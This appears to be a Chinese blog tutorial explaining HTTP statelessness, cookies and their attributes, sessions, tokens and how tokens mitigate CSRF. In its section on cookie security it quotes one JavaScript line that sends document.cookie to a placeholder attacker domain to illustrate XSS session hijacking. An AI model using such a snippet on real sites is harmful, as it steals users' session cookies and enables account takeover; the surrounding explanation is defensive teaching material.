


# http是无状态的；


## 无状态的问题


爬虫系列教程的第一篇：HTTP详解中我们便说过HTTP的五大特点，而其中之一便是：**无状态**;


<font color=red>**HTTP无状态：服务器无法知道两个请求是否来自同一个浏览器，即服务器不知道用户上一次做了什么，每次请求都是完全相互独立。**</font>

<font color=red>注意无状态的对象就是浏览器；来自于同一个客户端，</font>


早期互联网只是用于简单的浏览文档信息、查看黄叶、门户网站等等，并没有交互这个说法。但是随着互联网慢慢发展，宽带、服务器等硬件设施已经得到很大的提升，互联网允许人们可以做更多的事情，所以交互式Web慢慢兴起，而HTTP无状态的特点却严重阻碍其发展！


**交互式Web：客户端与服务器可以互动，如用户登录，购买商品，各种论坛等等**


不能记录用户上一次做了什么，怎么办？聪明的程序员们就开始思考：怎么样才能记录用户上一次的操作信息呢？于是有人就想到了隐藏域。

隐藏域写法：<input type="hidden" name="field＿name" value="value">


http的无状态代表的是：每次请求都是独立了；


token的无状态；不需要在服务器记录状态；   cookie和session需要在服务端来记录状态；

主要是为了解决，负载均衡的问题； 也就是说明token具有可扩展性；

token访问那个服务器 都不会出现问题；


Cookie主要用于以下三个方面：

1. 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
2. 个性化设置（如用户自定义设置、主题等）
3. 浏览器行为跟踪（如跟踪分析用户行为等）


Cookie带来的安全性问题

**会话劫持和XSS：**在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。会获取到cookie；


**跨站请求伪造（CSRF）：**维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。解决CSRF的办法有：隐藏域验证码、确认机制、较短的Cookie生命周期等  

## 

```php
#Session和Token比较
Token 完全由应用管理，所以它可以避开同源策略
    
Token 可以避免 CSRF 攻击

#为什么Token可以防止CSRF攻击
Cookie 有一个过期时间，在这段时间内，Cookie 是存储在客户端的，当再次访问相同的网站时，浏览器会自动在 HTTP 请求中自动带上该网站用户登录后的 Cookie。 CSRF 攻击也正是利用这点，借用用户的 Cookie，去执行非用户本意的操作而token验证的规则是，服务器从请求体（POST）或者请求参数（GET）中获取设置的 token，然后和 Cookie 中的 token 进行比较，一致之后才执行请求 而 CSRF 攻击只是借用了 Cookie，并不能获取 Cookie 中的信息，所以不能获取 Cookie 中的 token，也就不能在发送请求时在 POST 或者 GET 中设置 token，把请求发送到服务器端时，token 验证不通过，也就不会处理请求了 所以，token 可以防止CSRF攻击
```


## Http无状态

HTTP无状态协议，是指协议对于交互性场景没有记忆能力

参考[https://blog.csdn.net/u014044812/article/details/95899291](https://link.zhihu.com/?target=https%3A//blog.csdn.net/u014044812/article/details/95899291)

## Cookie

## Cookie的起源

网景公司当时一名员工Lou Montulli（卢-蒙特利），在1994年将“cookies”的概念应用于网络通信，用来解决用户网上购物的购物车历史记录，而当时最强大的浏览器正是网景浏览器，在网景浏览器的支持下其他浏览器也渐渐开始支持Cookie，到目前所有浏览器都支持Cookie了。 Cookie，有时也用其复数形式 Cookies。类型为“小型文本文件”，是某些网站为了辨别用户身份，进行Session跟踪而储存在用户本地终端上的数据（通常经过加密），由用户客户端计算机暂时或永久保存的信息。


## Cookie的创建

用户在输入用户名和密码之后，浏览器将用户名和密码发送给服务器，服务器进行验证，验证通过之后将用户信息加密后封装成Cookie放在请求头中返回给浏览器。

```text
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: user_cookie=Rg3vHJZnehYLjVg7qi3bZjzg; Expires=Tue, 15 Aug 2019 21:47:38 GMT; Path=/; Domain=.169it.com; HttpOnly

[响应体]
```

Cookie的保存 浏览器收到服务器返回数据，发现请求头中有一个：Set-Cookie，然后它就把这个Cookie保存起来，下次浏览器再请求服务器的时候，会把Cookie也放在请求头中传给服务器：

```text
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: user_cookie=Rg3vHJZnehYLjVg7qi3bZjzg
```

## 注意

```text
Cookie无论是服务器发给浏览器还是浏览器发给服务器，都是放在请求头中的！
Cookie是将数据保存在客户端的。

Cookie带来的安全性问题
  1.会话劫持和XSS
  2.跨站请求伪造（CSRF）
```

## Cookie的属性


## 1.Name&Value

Name表示Cookie的名称，服务器就是通过name属性来获取某个Cookie值。 Value表示Cookie 的值，大多数情况下服务器会把这个value当作一个key去缓存中查询保存的数据。

## 2.Domain&Path

Domain表示可以访问此cookie的域名。 访问规则：顶级域名只能设置或访问顶级域名的Cookie，二级及以下的域名只能访问或设置自身或者顶级域名的Cookie。所以如果要在多个二级域名中共享Cookie的话，只能将Domain属性设置为顶级域名！ Path表示可以访问此cookie的页面路径。

## 3.Expires/Max-Age

Expires/Max-Age表示此cookie超时时间。若设置其值为一个时间，那么当到达此时间后，此cookie失效。不设置的话默认值是Session，意思是cookie会和session一起失效。当浏览器关闭(不是浏览器标签页，而是整个浏览器) 后，此cookie失效。 提示：当Cookie的过期时间被设定时，设定的日期和时间只与客户端相关，而不是服务端。

## 4.Size

Size表示Cookie的name+value的字符数，比如又一个Cookie：id=666，那么Size=2+3=5 。 另外每个浏览器对Cookie的支持都不相同

## 5.HTTP

HTTP表示cookie的httponly属性。若此属性为true，则只有在http请求头中会带有此cookie的信息，而不能通过document.cookie来访问此cookie。 设计该特征意在提供一个安全措施来帮助阻止通过Javascript发起的跨站脚本攻击(XSS)窃取cookie的行为

## 6.Secure

Secure表示是否只能通过https来传递此条cookie。 这种cookie的内容意指具有很高的价值并且可能潜在的被破解以纯文本形式传输。

## Session

Session翻译为会话，服务器为每个浏览器创建的一个会话对象，浏览器在第一次请求服务器，服务器便会为这个浏览器生成一个Session对象，保存在服务端，并且把Session的Id以cookie的形式发送给客户端浏览，而以用户显式结束或session超时为结束。 当一个用户向服务器发送第一个请求时，服务器为其建立一个session，并为此session创建一个标识号（sessionID）。 这个用户随后的所有请求都应包括这个标识号（sessionID）。服务器会校对这个标识号以判断请求属于哪个session。

## sessionId的使用有两种方式

1. Cookie中存放sessionId
2. URL重写。客户端浏览器禁用cookie后可以使用url重定向方式，在url拼上sessionid

> 参考[https://www.cnblogs.com/xuxinstyle/p/9675541.html](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/xuxinstyle/p/9675541.html)

## Token

Token 是在服务端产生的。如果前端使用用户名/密码向服务端请求认证，服务端认证成功，那么在服务端会返回 Token 给前端。前端可以在每次请求的时候带上 Token 证明自己的合法地位








## Token的优点

```text
Token 完全由应用管理，所以它可以避开同源策略
Token 可以避免 CSRF 攻击(http://dwz.cn/7joLzx)
Token 可以是无状态的，可以在多个服务间共享
```

## Token过期方案

### 1.自动推迟

- 用户每次操作都会自动刷新（推迟） Token 的过期时间。
- 缺点：高并发的站点，频繁读写，代价大。

### 2.Refresh Token

- 服务端不需要刷新 Token 的过期时间，一旦 Token 过期，就反馈给前端，前端使用 Refresh Token 申请一个全新 Token 继续使用。当然 Refresh Token 也是有有效期的，但是这个有效期就可以长一点了，比如，设置30天失效。
- 优点：大大减少了更新有效期的操作，也就避免了频繁读写。

## 无状态 Token

如果我们把所有状态信息都附加在 Token 上，服务器就可以不保存。但是服务端仍然需要认证 Token 有效。不过只要服务端能确认是自己签发的 Token，而且其信息未被改动过，那就可以认为 Token 有效——“签名”可以作此保证。平时常说的签名都存在一方签发，另一方验证的情况，所以要使用非对称加密算法。但是在这里，签发和验证都是同一方，所以对称加密算法就能达到要求，而**对称算法**比非对称算法要快得多（可达数十倍差距）。

## Session和Token比较

```text
Token 完全由应用管理，所以它可以避开同源策略
Token 可以避免 CSRF 攻击
```

## 为什么Token可以防止CSRF攻击

Cookie 有一个过期时间，在这段时间内，Cookie 是存储在客户端的，当再次访问相同的网站时，浏览器会自动在 HTTP 请求中自动带上该网站用户登录后的 Cookie。 CSRF 攻击也正是利用这点，借用用户的 Cookie，去执行非用户本意的操作而token验证的规则是，服务器从请求体（POST）或者请求参数（GET）中获取设置的 token，然后和 Cookie 中的 token 进行比较，一致之后才执行请求 而 CSRF 攻击只是借用了 Cookie，并不能获取 Cookie 中的信息，所以不能获取 Cookie 中的 token，也就不能在发送请求时在 POST 或者 GET 中设置 token，把请求发送到服务器端时，token 验证不通过，也就不会处理请求了 所以，token 可以防止CSRF攻击

发布于 2021-06-16 10:13